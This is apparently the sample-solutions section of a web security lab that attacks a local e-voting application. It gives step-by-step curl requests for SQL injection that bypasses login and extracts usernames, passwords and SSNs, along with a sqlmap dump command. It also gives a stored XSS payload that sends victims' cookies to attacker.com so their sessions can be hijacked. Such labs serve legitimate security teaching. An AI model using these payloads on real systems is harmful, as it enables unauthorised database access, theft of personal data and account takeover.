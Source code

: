```python
```

---

## 📝 Sample Solutions for Reference

### Complete SQL Injection Attack Chain

```bash
# Step 1: Discover injection point
curl -X POST http://localhost:8181/evoting/login1.php \
  -d "Username=test'&Password=test&submit=login"
# Error reveals SQL syntax issue

# Step 2: Confirm vulnerability
curl -X POST http://localhost:8181/evoting/login1.php \
  -d "Username=admin' OR '1'='1&Password=x&submit=login" -L

# Step 3: Determine column count
curl -X POST http://localhost:8181/evoting/login1.php \
  -d "Username=admin' ORDER BY 9--&Password=x&submit=login"
# Increase number until error

# Step 4: Extract data
curl -X POST http://localhost:8181/evoting/login1.php \
  -d "Username=admin' UNION SELECT 1,Username,Password,SSN,5,6,7,8,9 FROM person_info--&Password=x&submit=login"

# Step 5: Automate with SQLMap
sqlmap -u "http://localhost:8181/evoting/login1.php" \
  --forms --batch --dump -D evoting -T person_info
```

### Complete XSS to Cookie Theft

```html
<!-- Step 1: Create malicious payload -->
<script>
fetch('http://attacker.com/steal?cookie=' + btoa(document.cookie))
</script>

<!-- Step 2: Host listener (attacker machine) -->
python3 -m http.server 8888

<!-- Step 3: Inject into candidate description -->
<!-- Navigate to AddNewCandidate.php -->
<!-- Insert payload in description field -->

<!-- Step 4: When victim views candidate -->
<!-- Cookie is sent to attacker server -->

<!-- Step 5: Use stolen cookie -->
<!-- Replace your cookie with victim's cookie -->
<!-- Access their session -->
```
